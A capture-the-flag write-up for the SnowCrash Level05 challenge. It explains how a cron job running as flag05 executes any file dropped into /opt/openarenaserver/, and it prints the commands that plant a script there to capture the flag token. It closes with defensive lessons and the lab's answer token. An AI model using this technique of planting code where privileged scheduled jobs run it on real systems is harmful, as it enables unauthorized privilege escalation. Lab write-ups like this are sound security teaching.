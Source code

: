 # Level05 - Cron Job Exploitation

## Challenge Overview

Level05 involves discovering and exploiting a scheduled task (cron job) that runs with elevated privileges. The challenge teaches about:

- Identifying system messages and notifications
- Discovering cron jobs through system inspection
- Understanding file permissions and privilege escalation
- Exploiting insecure script execution paths

## Initial Reconnaissance

When logging in as level05, you might notice a system message:

```
You have new mail.
```

This is our first clue - there's something important in the mail spool.

## Investigation

### Step 1: Check the mail

In Linux systems, the mail system is a simple text-based messaging service that allows users and system processes to communicate. System mail is often used by:

- Cron jobs to report errors or output
- System administrators to notify users
- System services to report critical information

Each user's mail is typically stored in a file at `/var/mail/username` or `/var/spool/mail/username`. When you see a "You have new mail" message, it's worth investigating as it often contains important system information.

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This reveals a cron job that runs every 2 minutes as the flag05 user, executing `/usr/sbin/openarenaserver`.

#### The Cron Schedule (First 5 Fields)

- First position (_/2): Runs every 2 minutes (_/2 means "every 2" in the minute position)
- Second position (\*): Every hour
- Third position (\*): Every day of month
- Fourth position (\*): Every month
- Fifth position (\*): Every day of week
  So this translates to: "Run every 2 minutes, 24/7"

#### The Command Part

- su: Switch user command
- -c: Option that means "execute the following command"
- "sh /usr/sbin/openarenaserver": The command to execute (runs the script using sh)
- -: Provides a clean environment for the new user session
- flag05: The user to switch to when running the command

### Step 2: Examine the script

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script:

- Uses a `for` loop to iterate through all files in `/opt/openarenaserver/`
- For each file found:
  - Sets a CPU time limit of 5 seconds (`ulimit -t 5`)
  - Executes the file with bash in debug mode (`bash -x`)
  - Deletes the file after execution (`rm -f`)
- The script runs with flag05's permissions due to the cron job

## Vulnerability Analysis

The vulnerability lies in the script executing any file placed in `/opt/openarenaserver/` with flag05's permissions.

## Exploitation Strategy

1. Create a script in the target directory that executes `getflag`
2. Make it executable
3. Wait for the cron job to run it (within 2 minutes)
4. The result will be captured for later viewing

## Exploitation Steps

### Step 1: Create a script that captures the flag

```bash
$ echo '#!/bin/sh' > /opt/openarenaserver/exploit.sh
$ echo 'getflag > /tmp/flag05' >> /opt/openarenaserver/exploit.sh
$ chmod +x /opt/openarenaserver/exploit.sh
```

### Step 2: Wait for execution

Wait up to 2 minutes for the cron job to execute our script.

### Step 3: Retrieve the captured output

```bash
$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Security Lessons

1. **Principle of Least Privilege**: Cron jobs should run with the minimum privileges needed.

2. **Secure Script Paths**: Scripts that run with elevated privileges should be in secure locations not writable by lower-privileged users.

3. **Input Validation**: The `for` loop in the script executes any file without validation, creating a security risk.

4. **Regular Security Audits**: Cron jobs should be regularly audited for security issues.

## Summary

This challenge demonstrates a common privilege escalation vector through insecure cron job configuration. By abusing a script that automatically executes user-created files, we were able to escalate to flag05's privileges and capture the token.

The flag for level05 is: `viuaaale9huek52boumoomioc`
